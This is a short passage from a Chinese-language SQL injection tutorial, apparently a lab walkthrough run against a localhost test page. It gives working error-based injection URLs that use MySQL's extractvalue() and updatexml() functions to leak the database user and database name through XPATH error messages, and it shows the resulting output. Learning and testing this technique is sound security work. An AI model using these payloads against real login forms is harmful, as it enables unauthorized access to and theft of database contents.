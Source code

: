 本地环境测试：

    http://localhost/sqli/index.php?name='+or+extractvalue(1,concat(user(),database()))+%23&pass=1

报错注入得到：

    Operation error: XPATH syntax error: '@localhostsqli'

法三：`updatexml()`函数，同样是利用语法错误导致报错：

    updatexml(1,concat(user()),1)

本地环境测试：

    http://localhost/sqli/index.php?name='+or+updatexml(1,concat(user(),0x3a,database()),1)+%23&pass=1

报错注入得到：

    Operation error: XPATH syntax error: '@localhost:sqli'

